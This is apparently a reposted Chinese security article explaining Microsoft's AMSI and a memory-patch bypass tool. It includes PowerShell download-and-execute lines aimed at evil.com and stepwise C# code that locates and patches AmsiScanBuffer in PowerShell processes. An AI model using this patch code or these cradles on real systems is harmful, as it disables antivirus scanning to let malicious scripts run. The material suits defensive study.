

# Sharp4BypassAMSI：一款通过 Patch 内存绕过 AMSI 检测的工具-先知社区

> **来源**: https://xz.aliyun.com/news/18001  
> **文章ID**: 18001

---

自从无文件攻击成为主流，攻击者们越来越倾向于将 payload 保存在内存中，通过脚本解释器动态加载并执行，从而绕过杀软和防火墙的查杀。这种趋势对传统反病毒软件提出了新的挑战，而微软推出的 AMSI 正是为应对这一问题而诞生。

## 0x01 AMSI 产生的背景

AMSI 英文全称 Anti-Malware Scan Interface，是微软自 Windows 10 和 Windows Server 2016 起引入的一项反恶意软件扫描技术，用于 在脚本或动态内容执行前，将其提交给反病毒引擎进行实时内容扫描。 AMSI 不是一个杀毒引擎，而是一个通用接口，让 Windows 和各类杀毒软件之间协作，共同拦截恶意代码。

在 Windows 安全中，传统杀毒引擎主要依赖文件扫描、注册表监控和行为分析。然而，越来越多的攻击载荷选择 PowerShell、VBScript、JS 等解释型语言，在内存中完成整个攻击链。这意味着文件不落地的场景，杀毒引擎无法通过文件哈希识别。动态构造时，引擎无法通过静态特征匹配。

微软安全意识到，必须提供一个方法让 AV 可以看到程序尚未执行时的内容，因此，AMSI作用总结为一句话： 在脚本执行之前，把内容交给防病毒软件分析，拦截恶意行为。

​

## 0x02 AMSI 主要保护的对象

AMSI（Antimalware Scan Interface）是微软推出的一套动态代码扫描接口，主要用于检测和拦截恶意脚本、宏代码及其他动态执行的威胁。它并非传统杀毒引擎的替代品，而是专注于运行时行为的监控，尤其擅长对抗无文件攻击和脚本类恶意代码。然而，AMSI 也有其特定的适用场景和检测盲区，理解其工作机制有助于更有效地利用它进行安全防护或研究潜在的绕过方法。

### 2.1 AMSI 的核心保护对象

AMSI 初衷是增强对动态脚本和解释性代码的检测能力，主要保护以下脚本类型的代码执行。

​

1. **PowerShell 脚本**

无论是直接在命令行输入的代码，还是从文件或远程加载的脚本，PowerShell 在执行前都会调用 AmsiScanBuffer 进行扫描，使得攻击者常用的内存加载或混淆后的脚本可能被拦截，比如 IEX、Invoke-Expression 等命令，代码如下所示。

```
IEX (New-Object Net.WebClient).DownloadString("http://evil.com/x.ps1")
```

2. **VBScript 和 JScript**

通过 Windows Script Host 运行的 .vbs 或 .js 脚本，在解释执行前会被提交至 AMSI 检测，这使得传统的恶意脚本难以直接运行。

​

3. **Office VBA 宏**

Word、Excel 等 Office 文档中的宏代码在运行时会被 AMSI 扫描。这个方法有效遏制了利用宏代码发起的攻击，比如恶意文档钓鱼。

​

4. **NET 动态编译代码**

使用 CSharpCodeProvider、Roslyn 或 Reflection.Emit 动态生成的代码会被 AMSI 检查，这使得某些内存加载或运行时编译的恶意 .NET 代码可能被检测到，代码如下所示。

​

```
new CSharpCodeProvider().CompileAssemblyFromSource(...);
```

​

### 2.2 AMSI 的检测盲区

尽管 AMSI 在脚本检测方面表现优秀，但它并非万能，以下情况通常不会触发 AMSI 的扫描机制：

1. **可执行文件**

AMSI 不负责静态文件扫描，已落地的 PE 文件由传统杀毒引擎处理。如果攻击者直接执行恶意 .exe 或通过 DLL 劫持加载代码，AMSI 不会介入。

2. **Shellcode**

直接注入内存的 Shellcode不会被 AMSI 检测，除非这些数据通过脚本解释器加载，比如通过 PowerShell 加载。

3. **预编译的 .NET 程序**

已编译的 .NET 应用程序通常不会触发 AMSI 扫描，除非涉及动态代码生成，比如 Eval、CodeDom。

​

## 0x03 AMSI 工作原理

AMSI 核心工作流程可分为 拦截机制 和 技术实现 两部分， 当用户在 PowerShell、VBScript、Office 宏等环境中执行代码时，AMSI 会介入并检查代码内容。以 PowerShell 执行远程脚本 为例：

```
Invoke-Expression (New-Object Net.WebClient).DownloadString("http://evil.com/shell.ps1")
```

​

此时，PowerShell 引擎在解释执行前，会将待运行的脚本内容传递给 AMSI 接口，这里是从远程下载的 shell.ps1。接着，AMSI 将接收到的代码内容提交给系统中已安装的杀毒软件进行扫描。

​

随后，杀毒软件对脚本内容进行静态和动态分析，检测是否存在恶意特征，比如 Invoke-Expression、DownloadString、Base64 解码、Shellcode 注入等，如果杀毒软件判定代码为恶意，AMSI 会阻止其执行，并返回错误。

​

本质上，AMSI 的核心功能通过 AmsiScanBuffer 函数实现，该接口被集成在支持动态代码解释的组件中，其函数原型如下 所示。

​

```
HRESULT AmsiScanBuffer(

  HAMSICONTEXT amsiContext,  // AMSI 上下文句柄

  PVOID        buffer,       // 待扫描的代码内容缓冲区

  ULONG        length,       // 缓冲区长度

  LPCWSTR      contentName,  // 内容标识（如脚本文件名）

  HAMSISESSION amsiSession,  // AMSI 会话句柄

  AMSI_RESULT *result        // 扫描结果（是否恶意）

);
```

​

当 PowerShell 或 Office 启动时，会先调用 AmsiInitialize 创建 AMSI 上下文，准备扫描环境。接着，在脚本执行前，调用 AmsiScanBuffer，将待执行的代码送入缓冲区。

​

AMSI 将缓冲区内容传递给注册的反恶意软件引擎，比如 Windows Defender，由其决定是否阻断执行。

​

杀毒引擎返回 AMSI\_RESULT，比如返回值 AMSI\_RESULT\_DETECTED 表示恶意内容，AMSI\_RESULT\_CLEAN 表示无威胁，AMSI\_RESULT\_BLOCKED 表示策略禁止执行，操作系统据此决定是否允许代码运行。

​

## 0x04 AMSI 绕过的方法

尽管 AMSI 功能强大，但攻击者总能想方设法绕过它。内存 Patch 是当前最常见的 AMSI 绕过方法，修改进程内存中 amsi.dll 中的 AmsiScanBuffer 函数，使其始终返回AMSI\_RESULT\_CLEAN。完整的绕过代码代码如下所示。

​

```
Runspace rs = RunspaceFactory.CreateRunspace();

rs.Open();
PowerShell ps = PowerShell.Create();
Process[] processes = Process.GetProcessesByName("powershell");
```

先使用PowerShell内置的方法创建一个PowerShell进程，再查询本机上正在运行的 powershell.exe。

​

接着，遍历进程加载的模块，查找 amsi.dll并获取其加载的内存基地址和模块大小，具体代码如下所示。

​

```
foreach (ProcessModule processModule in processes[l].Modules)
{
    if (processModule.ModuleName == "amsi.dll")
    {
        Console.WriteLine("[+] Base address of amsi.dll: " +  "0x" + processModule.BaseAddress.ToString("X"));
        baseAddress = processModule.BaseAddress;
        moduleSize = processModule.ModuleMemorySize;
        Console.WriteLine("[+] Size of the module: 0x" + moduleSize.ToString("X"));
    }
}
```

随后，在内存中扫描并查找 AmsiScanBuffer 函数地址 ， 找到AmsiScanBuffer 函数开头的机器码，代码如下所示。

​

```
byte[] ret = new byte[32];

// First 32 bytes of AmsiScanBuffer function

byte[] fewBytes = new byte[32] { 0x4c, 0x8b, 0xdc, 0x49, 0x89, 0x5b, 0x08, 0x49, 0x89, 0x6b, 0x10, 0x49, 0x89, 0x73, 0x18, 0x57, 0x41, 0x56, 0x41, 0x57, 0x48, 0x83, 0xec, 0x70, 0x4d, 0x8b, 0xf9, 0x41, 0x8b, 0xf8, 0x48, 0x8b };

IntPtr outt;

bool addrScanBuffer = false;

int count = 0;
```

然后，通过循环读取目标进程内存进行字节级比对，来确定 AmsiScanBuffer 函数的真实地址，具体代码如下所示。

​

```
ReadProcessMemory(hHandle, baseAddress + i, ret, fewBytes.Length, out outt);

if (addrScanBuffer == true)

{

    break;

}

for (int j = 0; j < fewBytes.Length; j++)

{

    if (count == fewBytes.Length - 1)

    {

        amsiScanBuffer = baseAddress + i;

        Console.WriteLine("[+] Found AmsiScanBuffer function: 0x" + amsiScanBuffer.ToString("X"));

        res = false;

        addrScanBuffer = true;

        break;

    }

    if (fewBytes[j] == ret[j])

    {

        count++;

    }

    else if (fewBytes[j] != ret[j])

    {

        count = 0;

        break;

    }

}
```

找到 AmsiScanBuffer 函数真实地址后，通过 VirtualProtectEx 函数修改目标进程中 amsi.dll 所在内存区域的访问保护标志，使 PAGE\_EXECUTE\_READWRITE =0x40，其变为可写状态，具体代码如下所示。

​

```
uint lpflOldProtect;

if (VirtualProtectEx(hHandle, baseAddress, (uint)0x1000, 0x40, out lpflOldProtect))

{

   Console.WriteLine("[+] Successfully changed memory protection");

}

else

{

    Console.WriteLine("[-] Changing memory protection failed");

}
```

最后，在内存中修改 AmsiScanBuffer 函数地址，注入 0x31 0xff 0x90 字节码， 这样便破坏了 AmsiScanBuffer 的正常逻辑，使其在检测时始终返回 AMSI\_RESULT\_CLEAN。具体代码如下所示。

​

```
byte[] hijack = new byte[3] { 0x31, 0xff, 0x90 };

int numberOfBytesWritten = 0;

if (WriteProcessMemory(hHandle, amsiScanBuffer + 0x1b, hijack, (uint)hijack.Length, out numberOfBytesWritten))

{

    Console.WriteLine("[+] Successfully hijacked
----------------------------------------------------------
");

}

else

{

    Console.WriteLine("[-] Hijacking failed
----------------------------------------------------------
");

}
```

Sharp4BypassAMSI.exe 便是这样一款用于绕过AMSI执行PowerShell脚本的工具，运行后如下所示。



​

综上，AMSI 是微软提供给杀毒软件的重要武器之一，在脚本执行前进行内容拦截，对 PowerShell、Office 宏、脚本引擎非常有效，也对部分高级 WebShell 有拦截能力。 但对提前编译或非动态执行的WebShell仍然无能为力，红队仍能通过结混淆、预编译技术绕过检测。
